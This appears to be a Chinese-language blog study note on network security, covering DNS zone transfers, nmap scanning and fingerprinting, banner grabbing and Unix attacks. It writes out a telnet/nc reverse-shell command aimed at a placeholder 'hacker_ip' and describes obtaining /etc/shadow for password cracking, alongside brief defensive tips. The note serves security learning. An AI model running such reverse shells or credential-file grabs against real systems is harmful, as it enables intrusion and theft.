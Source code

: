 
---
title: "网络安全 Network Security"
date: 2022-01-23T22:54:00.000Z
lastmod: 2022-12-04T13:10:00.000Z
tags: ['network', 'security', 'tools']
draft: false
---



# 踩点


## DNS zone transfer 区域传送

[https://digi.ninja/projects/zonetransferme.php](https://digi.ninja/projects/zonetransferme.php)

[https://www.mi1k7ea.com/2021/04/03/浅析DNS域传送漏洞/](https://www.mi1k7ea.com/2021/04/03/%E6%B5%85%E6%9E%90DNS%E5%9F%9F%E4%BC%A0%E9%80%81%E6%BC%8F%E6%B4%9E/)

```bash
dig axfr @nsztm1.digi.ninja zonetransfer.me
```


## 网络拓扑

```bash
traceroute

# -I: ICMP, -U: UDP, -T: TCP
traceroute -I

# tells the network to route the packet through the specified gateway 
# (most routers have disabled source  routing  for  security reasons).
traceroute -g 10.10.10.5
```


ping 一般默认走 ICMP 协议。

ICMP（Internet Control Message Protocol，互联网控制协议）是网络层协议，但是它不像 IP 协议和 ARP 协议一样直接传递给数据链路层，而是**先封装成 IP 数据包然后再传递给数据链路层**。所以在 IP 数据包中如果协议类型字段的值是 1 的话，就表示 IP 数据是 ICMP 报文。IP 数据包就是靠这个协议类型字段来区分不同的数据包的。

在 IP 通信中如果某个包因为未知原因没有到达目的地址，那么这个具体的原因就是由 ICMP 负责告知。而 ICMP 协议的类型定义中就清楚的描述了各种报文的含义。


# 扫描

```bash
sudo arp-scan 172.19.50.0/24

# 端口扫描，-Pn 忽略主机发现，避免 ICMP 被屏蔽
nmap -Pn 172.19.50.218
```


### 协议栈指纹分析技术

协议栈指纹分析技术：Stack Fingerprinting，分主动式、被动式。

通过检查协议栈具体实现的细微差异，侦测目标设备的操作系统。

```bash
# 扫描 OS，主动式
sudo nmap -O -Pn 192.168.1.1
```


# 查点


### 服务指纹分析技术

```bash
# 检查某个服务的版本号
nmap -sV 192.168.1.1 -p 22
```


### 漏洞扫描器  
  
-   Nessus  
-   nmap script engine



### 标语抓取技术

连接到远程应用程序，并观察其输出。

```bash
telnet www.example.com 80

# netcat, TCP/IP 瑞士军刀
nc -v www.example.com 80

```



# 攻击 Unix


## 远程访问


### 缓冲区溢出攻击  
  
-   堆栈缓冲区溢出  
-   heap 缓冲区溢出


### 反向通道  
  
1.  在自己的机器上打开 nc 监听器，接受反向的 telnet 连接；  
1.  在目标机器上执行 telnet 命令，建立反向通道。


Example 1：

```bash
# 自己的机器，这个终端接受 sh 命令输入
nc -l -n -v -p 80

# 自己的机器，这个终端会打印 sh 标准输出
nc -l -n -v -p 25

# 目标机器
/bin/telnet hacker_ip 80 | /bin/sh | /bin/telnet hacker_ip 25
```


> Security Tips  
``chmod 750 telnet`` 禁止不必要执行 telnet 的用户去执行它。   



## 本地访问


### 离线口令破解  
  
1.  获取 ``/etc/shadow`` 文件  
      
    1.  MCF 格式：`$算法$salt$hash` ，算法1：MD5，算法2：Blowfish   
1.  计算 ``hash(salt+password)`` ，和 shadow 文件中的值比较，匹配则破解成功


破解程序：John the Ripper，AKA: John, JTR


### 本地缓冲区溢出

一般以 SUID 属性的文件为目标，从而允许攻击者以 root 特权执行命令。

参考：[Linux Tips]({{< relref "linux-tips" >}}) 

> Security Tips  
尽量不要设置 SUID 位。  

